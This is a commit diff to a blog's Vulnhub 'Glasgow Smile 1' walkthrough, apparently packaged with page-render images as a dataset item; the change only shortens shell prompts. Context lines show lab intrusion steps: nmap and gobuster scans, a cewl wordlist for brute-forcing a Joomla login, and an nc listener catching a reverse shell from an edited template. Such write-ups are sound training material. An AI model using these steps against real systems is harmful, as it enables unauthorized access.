

Before and after one commit to madhavmehndiratta/blog, a Jekyll site: the page built from _posts/2020-07-25-glasgow-smile-1-vulnhub-walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 843 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Glasgow Smile Vulnhub Walkthrough

````diff
--- a/_posts/2020-07-25-glasgow-smile-1-vulnhub-walkthrough.md
+++ b/_posts/2020-07-25-glasgow-smile-1-vulnhub-walkthrough.md
@@ -16,7 +16,7 @@ Glasgow Smile 1.1 is a boot to root machine available on Vulnhub. It consists of
 
 
 ```r
-root@kali:~/vulnhub/glasgowSmile# cat /etc/hosts
+root@kali:~# cat /etc/hosts
 127.0.0.1       localhost
 127.0.1.1       kali
 192.168.1.8     joker
@@ -27,7 +27,7 @@ root@kali:~/vulnhub/glasgowSmile# cat /etc/hosts
 As usual, I started with Nmap checking for open ports and default scripts.
 
 ```r
-root@kali:~/vulnhub/glasgowSmile# nmap -sC -sV -oA nmap/glasgowSmile joker
+root@kali:~# nmap -sC -sV -oA nmap/glasgowSmile joker
 Starting Nmap 7.80 ( https://nmap.org )
 Nmap scan report for joker (192.168.1.8)
 Host is up (0.00092s latency).
@@ -50,7 +50,7 @@ Nmap done: 1 IP address (1 host up) scanned in 8.74 seconds
 We have an ssh port open and an Apache Web Server running on port 80. Looking at port 80, I found an image of "Joker". Next, I performed a gobuster scan to look for hidden directories.
 
 ```r
-root@kali:~/vulnhub/glasgowSmile# gobuster dir -u http://joker -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+root@kali:~# gobuster dir -u http://joker -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 ===============================================================
 Gobuster v3.0.1
 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
@@ -87,7 +87,7 @@ I tried logging in with some random usernames and passwords such as admin:admin,
 The next option was to brute force the login credentials, For this I used Burp Suite. Before that we need a wordlist, I created it using cewl.
 
 ```r
-root@kali:~/vulnhub/glasgowSmile# cewl http://joker/joomla >> keywords.txt
+root@kali:~# cewl http://joker/joomla >> keywords.txt
 ```
 
 Now Let's fire up Burp Suite and intercept the login request. Once the request is captured, right click on the request and select <b>Send to Intruder</b> option.
@@ -133,7 +133,7 @@ We have a template named Protostar installed. I decided to edit this template an
 After that, I started a net cat listener on port 9001 and visited the index.php at <b>http://joker/joomla</b> and we managed to get a reverse shell.
 
 ```r
-root@kali:~/vulnhub/glasgowSmile# nc -lvnp 9001
+root@kali:~# nc -lvnp 9001
 listening on [any] 9001 ...
 connect to [192.168.1.7] from (UNKNOWN) [192.168.1.8] 58078
 Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
@@ -181,7 +181,7 @@ www-data@glasgowsmile:/var/www/joomla2$ echo -n Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRo
 Now we can use these credentials to login via ssh as user <b>rob</b> and read our first flag.
 
 ```r
-root@kali:~/vulnhub/glasgowSmile# ssh rob@joker
+root@kali:~# ssh rob@joker
 
 The authenticity of host 'joker (192.168.1.8)' cant be established.
 ECDSA key fingerprint is SHA256:05TCY2Nw37yPYIluFAe7y4vTCupftlAxY+jXZsTJu88.
````
